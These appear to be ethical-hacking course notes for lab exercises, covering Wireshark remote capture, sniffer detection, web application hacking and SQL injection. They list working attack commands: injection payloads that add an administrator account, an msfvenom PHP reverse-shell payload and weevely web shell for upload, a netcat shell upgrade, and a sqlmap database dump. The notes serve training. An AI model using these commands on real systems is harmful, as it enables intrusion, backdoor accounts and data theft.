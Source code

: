 > Wireshark filter for filtering HTTP POST request 

	Capture traffic from remote interface via wireshark

	Capture > Options 

> Manage Interfaces 

	Remote Interface 

> Add >
 
	Host &  Port (2002)

	Username & password > Start

¨ Detect Sniffing 
	
	nmap --script=sniffer-detect 10.10.10.19 - 10.10.10.19 is the target IP 

--------------------------------------------------------------------------  
Module 14 – Hacking Web Applications

¨ Command Injection
 
	| net user Test /Add  > | net localgroup Administrators Test /Add >  | net user Test > remote login with the user

¨ File Upload metasploit 

	msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.13 LPORT=4444 -f raw - here 10.10.10.13 is the IP of the host machine. We can use 'LHOST=' or 'LHOST-' 
	> copy the payload to a .php 
	> Type set payload php/meterpreter/reverse_tcp and press Enter
	> Type set LHOST 10.10.10.13 and press Enter
	> Type set LPORT 4444 and press Enter
	> Go to where the file is  http://10.10.10.16:8080/dvwa/hackable/uploads/upload.php
	> session might be established. 

¨ File Upload weevely

	weevely generate toor /home/attacker/Desktop/shell.php 
	> go to website and upload the file.
	> session might be established 
	/usr/share/webshells/
	> go to website and upload the file.
	> nc the port
	> python3 -c 'import pty;pty.spawn("/bin/bash")'
	> session might be established C

¨ Detect Sniffing 

	nmap --script=sniffer-detect 10.10.10.19 - 10.10.10.19 is the target IP 
  
--------------------------------------------------------------------------  
Module 15 – SQL Injection

¨ sqlmap
	sqlmap -u “http://www.moviescope.com/viewprofile.aspx?id=1” --cookie="xookies xxx" –dbs - SQLMAP Extract DBS
